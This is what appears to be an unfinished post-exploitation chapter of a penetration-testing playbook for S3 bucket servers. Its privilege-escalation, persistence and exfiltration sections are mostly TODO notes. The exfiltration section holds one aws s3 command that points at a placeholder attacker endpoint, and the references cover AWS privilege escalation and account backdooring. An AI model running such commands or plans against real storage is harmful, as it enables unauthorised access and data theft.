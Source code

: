 # 04 - Post Exploitation

## Privilege Escalation

TODO: Write conditions to escalate to gain full control of the s3 bucket servers

## Maintaining Access

TODO: Provide steps for creating user accounts with admin access

## Data Exfiltration

TODO: Setup MinIO on a server to exflitrate s3 bucket instances and write conditions before executing this phase

`$ aws s3 --endpoint=http[s]://<attacker_url> --no-sign-request --recursive ls s3://<s3_bucket_IP>`

---
## References

- [Privilege Escalation in AWS - Part 01](https://mystic0x1.github.io/posts/AWS-Privilege-Escalation-Part-01/)

- [Privilege Escalation in AWS - Part 02](https://mystic0x1.github.io/posts/AWS-Privilege-Escalation-Part-02/)

- [Methods to Backdoor an AWS Account](https://mystic0x1.github.io/posts/methods-to-backdoor-an-aws-account/)

- [MinIO](https://min.io)

- [minio-backup-s3](https://github.com/fandoghpaas/minio-backup-s3)